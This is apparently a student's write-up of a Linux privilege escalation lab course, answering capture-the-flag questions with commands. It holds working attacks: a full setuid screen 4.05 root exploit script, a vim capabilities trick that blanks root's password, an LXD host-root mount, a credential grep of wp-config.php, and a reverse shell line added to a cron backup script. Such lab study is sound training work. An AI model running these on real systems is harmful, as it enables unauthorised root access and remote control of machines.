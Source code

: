 # Linux Privilege Escalation

Enumerate the Linux environment and look for interesting files that might contain sensitive data. Submit the flag as the answer.

```bash

sudo find / -type f -exec grep -l 'HTB{' {} + # search within all files for a string

```
What is the latest Python version that is installed on the target? 

```bash

ls /usr/bin/python*

```

Find the WordPress database password. 

```bash

find / -name wp-config.php 2>/dev/null 

cat /var/www/html/wp-config.php | grep 'DB_USER\|DB_PASSWORD'

```

Review the PATH of the htb-student user. What non-default directory is part of the user's PATH? 

```bash

echo $PATH

```

Use different approaches to escape the restricted shell and read the flag.txt file. Submit the contents as the answer. 

```bash

while read -r line; do echo "$line"; done < flag.txt

```

Find a file with the setuid bit set that was not shown in the section command output (full path to the binary).

```bash

find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null

```


Find a file with the setgid bit set that was not shown in the section command output (full path to the binary). 

```bash
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

```

What command can the htb-student user run as root? 
 
```bash
sudo -l

```

# Groups 

Use the privileged group rights of the secaudit user to locate a flag. 

```bash
groups secaudit

find / -type f -group adm 2>/dev/null | xargs ls -l 2>/dev/null | grep adm | grep root

cat /var/log/apache2/access.log | grep -I flag

```

# Capabilities

Escalate the privileges using capabilities and read the flag.txt file in the "/root" directory. Submit its contents as the answer. 

```bash

find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \; # find capabilities

getcap /usr/bin/vim.basic # /usr/bin/vim.basic cap_dac_override=eip

echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd #  we can see that the x in that line is gone

cat /etc/passwd | head -n1


```
# Vulnerable Services

Connect to the target system and escalate privileges using the Screen exploit. Submit the contents of the flag.txt file in the /root/screen_exploit directory. 


```bash
screen -v 

Screen version 4.05.00 (GNU) 10-Dec-16

```
Screen_exploit_POC.sh

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell

```

# Cron Job Abuse

Connect to the target system and escalate privileges by abusing the misconfigured cron job. Submit the contents of the flag.txt file in the /root/cron_abuse directory. 


```bash

find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

ls -la /dmz-backups/

wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

./pspy64 -pf -i 1000

cat /dmz-backups/backup.sh

nano /dmz-backups/backup.sh

nc -lvnp 443

```

backup.sh 

``` bash
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 
bash -i >& /dev/tcp/10.10.14.110/443 0>&1 # add this line


```

# Containers Linux Daemon (LXD)

Escalate the privileges and submit the contents of flag.txt as the answer.

```bash

id # have the lxd

lxc image import alpine-v3.18-x86_64-20230607_1234.tar.gz  --alias AlpineV3 # change alias

lxc init AlpineV3 privesc -c security.privileged=true

lxc config device add privesc host-root disk source=/ path=/tmp/root recursive=true # change path

lxc start privesc

lxc exec privesc /bin/sh # see root shell

find / -name flag.txt 2>/dev/null

cat /tmp/root/root/flag.txt

```
